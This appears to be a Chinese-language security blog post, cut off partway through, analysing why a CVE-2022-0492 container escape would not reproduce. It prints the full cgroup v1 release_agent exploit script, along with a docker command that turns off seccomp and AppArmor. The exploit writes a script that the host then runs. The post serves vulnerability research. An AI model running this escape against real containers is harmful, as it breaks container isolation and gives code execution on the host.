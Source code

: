```yaml
---

tags: Cloud Native Security News, CVE-2022-0492
version: v0.1.1

---
```


## CVE-2022-0492导致的容器逃逸无法复现原因分析

### 前言
> 漏洞原理：当容器有 `CAP_SYS_ADMIN` 权限时，我们可以通过 cgroup v1 的 `notify_on_release` 机制进行容器逃逸。CVE-2022-0492 则是 Linux Capability 没有校验当前用户命名空间是否为容器创时命名空间，就算启动容器时**没有赋予 CAP_SYS_ADMIN** 权限，导致我们可以利用 `unshare` 创建新的新的命名空间时拥有所有 Linux Capability（当然这个和 uid 映射一样，非真正 root 的 Linux Capability），从而利用 `CAP_SYS_ADMIN` 的逃逸姿势进行容器逃逸。
>
详情可戳 👇 

https://blog.csdn.net/Breeze_CAT/article/details/123427680


但我在复现的时候，复现不了

容器启动命令（当然在 k8s 下也试过部署Pod了）

```bash
#关闭所有安全防护启动docker
docker run --rm -it -h cve --name cve --security-opt="seccomp=unconfined" --security-opt="apparmor=unconfined" ubuntu:20.04 /bin/bash
```

利用 exp（这里先说下，这个 exp 是没问题的）

```bash
unshare -UrmC --propagation=unchanged bash
mkdir /mnt/cgroup
mount -t cgroup -o rdma cgroup /mnt/cgroup
mkdir /mnt/cgroup/x
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo 1 > /mnt/cgroup/x/notify_on_release
touch /cmd
echo '#!/bin/sh' > /cmd
echo "ps -ef >> $host_path/result"  >> /cmd
chmod 777 /cmd
echo "$host_path/cmd" > /mnt/cgroup/release_agent
sh -c "echo \$\$ >  /mnt/cgroup/x/cgroup.procs"
```

但会在写 release_agent 的时候出现

```bash
bash: /mnt/cgroup/release_agent: Permission denied
```

### 问题分析
当然这个cve导致的容器逃逸是有一定限制的，但我验证过了，都满足

